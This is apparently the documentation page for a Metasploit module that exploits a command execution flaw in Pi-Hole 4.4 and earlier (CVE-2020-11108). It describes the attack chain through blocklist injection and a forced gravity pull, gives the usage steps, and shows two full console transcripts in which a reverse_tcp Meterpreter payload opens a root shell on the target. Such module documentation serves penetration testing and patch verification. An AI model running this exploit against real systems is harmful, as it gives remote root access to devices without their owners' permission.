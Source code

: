 ## Vulnerable Application

This exploits a command execution in Pi-Hole <= 4.4.  A new blocklist is added, and then an
update is forced (gravity) to pull in the blocklist content.  PHP content is then written
to a file within the webroot.

Phase 1 writes a sudo pihole command to launch teleporter, effectively running a priv esc.

Phase 2 writes our payload to `teleporter.php`, overwriting, the content.

Lastly, the phase 1 PHP file is called in the web root, which launches
our payload in `teleporter.php` with root privileges.

A more detailed writeup is available from the [original author](https://frichetten.com/blog/cve-2020-11108-pihole-rce/).

Due to encodings, a local web server is required to be running on port `80`.

Two blocklist is left within Pi-Hole and should be removed.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/unix/http/pihole_blocklist_exec```
  4. Do: ```set srvhost [IP]```
  5. Do: ```set rhost [IP]```
  6. Do: ```run```
  7. You should get a root shell.

## Options

## Scenarios

### Pi-Hole 4.3.2 on Ubuntu 18.04

  ```
  [*] Processing pihole.rb for ERB directives.
  resource (pihole.rb)> use exploit/unix/http/pihole_blocklist_exec
  resource (pihole.rb)> set payload php/meterpreter/reverse_tcp
  payload => php/meterpreter/reverse_tcp
  resource (pihole.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (pihole.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (pihole.rb)> set srvhost 1.1.1.1
  srvhost => 1.1.1.1
  resource (pihole.rb)> set srvport 80
  srvport => 80
  resource (pihole.rb)> set verbose true
  verbose => true
  resource (pihole.rb)> exploit
  [*] Exploit running as background job 0.
  [*] Exploit completed, but no session was created.
  
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  msf5 exploit(unix/http/pihole_blocklist_exec) > [+] Version Detected: 4.3.2
  [*] Using URL: http://1.1.1.1:80/
  [*] Using cookie: PHPSESSID=45abdcp4rsc9bpi9tchi88ejnn;
  [*] Using token: WzmrFbksWxIbtuSVeyrf8yv9o541UdhueLN+BRXfUmY=
  [*] Adding backdoor reference
  [*] Forcing gravity pull
  [*] (1/2) Sending priv esc trigger
  [*] Adding root reference
  [*] Forcing gravity pull
  [*] (2/2) Sending root payload
  [*] Popping root shell
  [*] Sending stage (38288 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:57982) at 2020-05-12 22:30:38 -0400
  [+] Deleted cdJWzln.php
  [*] Server stopped.
  
  msf5 exploit(unix/http/pihole_blocklist_exec) > sessions -1
  [*] Starting interaction with 1...
  
  meterpreter > getuid
  Server username: root (0)
  meterpreter > sysinfo
  Computer    : pihole
  OS          : Linux pihole 4.15.0-64-generic #73-Ubuntu SMP Thu Sep 12 13:16:13 UTC 2019 x86_64
  Meterpreter : php/linux
  ```

### Pi-Hole 4.4 on Ubuntu 18.04

  ```
  [*] Processing pihole.rb for ERB directives.
  resource (pihole.rb)> use exploit/unix/http/pihole_blocklist_exec
  resource (pihole.rb)> set payload php/meterpreter/reverse_tcp
  payload => php/meterpreter/reverse_tcp
  resource (pihole.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (pihole.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (pihole.rb)> set srvhost 1.1.1.1
  srvhost => 1.1.1.1
  resource (pihole.rb)> set srvport 80
  srvport => 80
  resource (pihole.rb)> set verbose true
  verbose => true
  resource (pihole.rb)> exploit
  [*] Exploit running as background job 0.
  [*] Exploit completed, but no session was created.
  
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  msf5 exploit(unix/http/pihole_blocklist_exec) > [+] Version Detected: 4.4
  [*] Using URL: http://1.1.1.1:80/
  [*] Using cookie: PHPSESSID=uee4gcfsjk5m8289m4uk4rv1du;
  [*] Using token: uO4ha1e0fy+Qwvoq14XgslT3Z+VJ/h2RR3qyVT6dPz8=
  [*] Adding backdoor reference
  [*] Forcing gravity pull
  [*] Received GET request.  Responding
  [*] Sending 2nd gravity update request.
  [*] Forcing gravity pull
  [*] (1/2) Sending priv esc trigger
  [*] Adding root reference
  [*] Forcing gravity pull
  [*] Received GET request.  Responding
  [*] Sending 2nd gravity update request.
  [*] Forcing gravity pull
  [*] (2/2) Sending root payload
  [*] Popping root shell
  [*] Sending stage (38288 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:48636) at 2020-05-13 20:34:33 -0400
  [+] Deleted VRwxqyhs.php
  
  msf5 exploit(unix/http/pihole_blocklist_exec) > sessions -1
  [*] Starting interaction with 1...
  
  meterpreter > getuid
  Server username: root (0)
  meterpreter > sysinfo
  Computer    : pihole
  OS          : Linux pihole 4.15.0-99-generic #100-Ubuntu SMP Wed Apr 22 20:32:56 UTC 2020 x86_64
  Meterpreter : php/linux
  meterpreter > 
  [*] Blocklists must be removed manually from /admin/settings.php?tab=blocklists
  [*] Server stopped.
  ```
